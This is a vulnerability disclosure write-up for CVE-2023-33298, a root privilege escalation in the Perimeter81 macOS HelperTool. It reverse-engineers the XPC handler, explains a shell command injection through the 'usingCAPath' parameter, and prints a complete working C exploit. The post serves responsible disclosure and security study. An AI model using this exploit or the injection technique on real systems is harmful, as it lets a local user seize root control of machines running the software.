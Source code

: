 ```yaml
---
title: CVE-2023-33298 - Perimeter81 Local Privilege Escalation
description: Exploiting XPC HelperTool to gain LPE
date: 2023-06-30T00:38:03.147668+02:00
toc: true
tags:
    - reverse-engineering
    - macos
    - cve
refs:
    - https://perimeter81.com
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-33298
draft: false
---
```


# Introduction

Today we will be analyzing CVE-2023-33298 which is Local Privilege Escalation inside the Perimeter81 macOS application. We will be exploiting XPC service misconfiguration along with the Command Injection vulnerability 
to gain `root` privileges.

# Analysis

Perimeter81 adds an entry to _LaunchDaemons_, and we can examine the content of the `com.perimeter81.osx.HelperTool.plist` located inside `/Library/LaunchDaemons/` directory.

![LaunchDaemon plist file](../images/perimeter_helper_plist_file.png)

We can see that the key for `MachServices` is dictionary containing `com.perimeter81.osx.HelperTool`. This is the name of mach service which is exposed by the 
_com.perimeter81.osx.HelperTool_ binary.

If we now load `/Library/PrivilegedHelperTools/com.perimeter81.osx.HelperTool` inside the Hopper and search for `xpc_connection_create_mach_service` we can 
confirm that the function is called with `com.perimeter81.osx.HelperTool` as first argument.

![Mach Service Creation](../images/perimeter_service_creation.png)

From the image, we can also see that it calls `xpc_connection_set_event_handler` with `&var_40`. We can read [documentation](https://clang.llvm.org/docs/Block-ABI-Apple.html) and 
conlude that the structure contains `isa` pointer (which type of block is this), followed by two ints(flags and reserved) and finally `void (*invoke)(void *, ...);` function pointer 
which points to the actualy compiled block body.

Inside the disassembly, we can see that `*(&var_40 + 0x10) = sub_1002169d7;` points to `sub_1002169d7`. Let's now examine this function.

![Main connection handler](../images/perimeter_first_handler.png)

Inside the `else` we can see another call to `xpc_connection_set_event_handler` with the block that has `invoke` pointer set to `sub_100216a98`. Double clicking on this sub shows the following code.

![Peer connection handler](../images/perimeter_second_handler.png)

Based on this function we can conclude the following:

* We need to send the dictionary
* `type` inside the dictionary needs to be `rpc` or `helper_tool_rpc`.
* Function `sub_100216d6c` is called in multiple branches so we will check what that is
* We can also see that we have a line `r12 = xpc_dictionary_get_string(r13, "rpc");` followed by the check whether _r12_ is equal to *start_connection* so we can conclude that the key _rpc_ will contain some kind of function what to do.

Inspecting the `sub_100216d6c` function shows that it calls `-[SDHelperTool handleTargetServiceCommand:withRequest:withReply:]`.

![HandleTargetService](../images/perimeter_handletarget.png)

Since this method is a bit bigger, we will show only the beginning and the end of the function which are interesting.

![Check for target service](../images/perimeter_check_for_params.png)

We can see that it tries to extract the `parameters` and `target_service` keys. If `target_service` is NULL, it jumps to `loc_10020a119`. 

![Creation of generalInvoker selector](../images/perimeter_generalInvoker_create.png)

We can see that it saves `@selector(generalInvoker)` inside the `rax` register and then jumps back to `loc_10020a1c0`. `loc_10020a1c0` just calls `handleXPCServiceCommand:withParameters:withReply`.

![Calling handleXPCServiceCommand](../images/perimeter_handle_xpc.png)

If we search for "generalInvoker" in Hopper we can see that we have a match for `-[SDHelperTool setup_GeneralInvoker]` which allocates new object of class *SDHelperTool_InvokerGeneral*. 

![setup_GeneralInvoker](../images/perimeter_helpertool_general_invoker.png)

Searching for `DHelperTool_InvokerGeneral` reveals a lot of methods. After digging around a bit, I have found `install_SDP_CA:withReply:` which calls `security add-trusted-cert -d -r trustRoot -k /Library/Keychains/System.keychain %@` with the value from dictionary under the key `usingCAPath`. This is typical command injection where we can simply append `;` followed by the command we want to execute.

![Searching for DHelperTool_InvokerGeneral](../images/perimeter_invokergeneral_search.png)

![install_SDP_CA method](../images/perimeter_install_sdpca.png)

So to recap, our exploit should do the following:

* call `xpc_connection_create_mach_service` with `com.perimeter81.osx.HelperTool` as a name
* create a dictionary for __properties__ with the key __usingCAPath__ and value as __; some command to run as root__
* create another dictionary that will be our message with `type` as `helper_tool_rpc`, `rpc` as `install_SDP_CA`, and key `parameters` set to the previous dictionary
* send the message

# Full exploit

Full exploit looks like the following:

```c
#import <Foundation/Foundation.h>

#define NAME "com.perimeter81.osx.HelperTool"

int main(int argc, const char **argv) {
    if (argc != 2) {
        printf("missing cmd to execute\n");
        exit(1);
    }

    xpc_connection_t conn = xpc_connection_create_mach_service(NAME, NULL, 0);
    xpc_connection_set_event_handler(conn, ^(xpc_object_t object){
        NSLog(@"client received event: %s", xpc_copy_description(object));
    });
    xpc_connection_resume(conn);

    const char *c = argv[1];

    char cmd[250];
    sprintf(cmd, "; %s", c);

    // create dictionary to hold our parameters
    // method name and its parameters
    xpc_object_t params = xpc_dictionary_create(NULL, NULL, 0);
    xpc_dictionary_set_string(params, "usingCAPath", cmd);

    // create dictionary to send over xpc
    xpc_object_t message = xpc_dictionary_create(NULL, NULL, 0);
    xpc_dictionary_set_string(message, "type", "helper_tool_rpc");
    xpc_dictionary_set_string(message, "rpc", "install_SDP_CA");
    xpc_dictionary_set_value(message, "parameters", params);

    xpc_connection_send_message_with_reply(conn, message, dispatch_get_main_queue(), ^(xpc_object_t object){
        NSLog(@"Executed cmd: \"%s\"\n", c);
    });


    // create run loop so we can get async result for our command, otherwise the exploit would exit after sending the 
    // message
    dispatch_main();

    return 0;
}

```

![Running the exploit](../images/perimeter_exploit.png)

# Timeline

| Date            | Action                                                                      |
| --------------- | -----------                                                                 |
| 17 March 2023   | Sent report to Perimeter81                                                  |
| 21th March 2023 | Asked for an update, no reply                                               |
| 10th April 2023 | Asked for an update once more, got response that it was wrongly sidetracked |
| 19th April 2023 | Sent mail to see whether they have investigated it and working on it        |
| 10th May 2023   | Another mail and got no response                                            |
| 16th May 2023   | Contacted VINCE to coordinate disclosure                                    |

VINCE tried to contact them multiple times without success, so after more than three months I have decided to disclose the vulnerability.
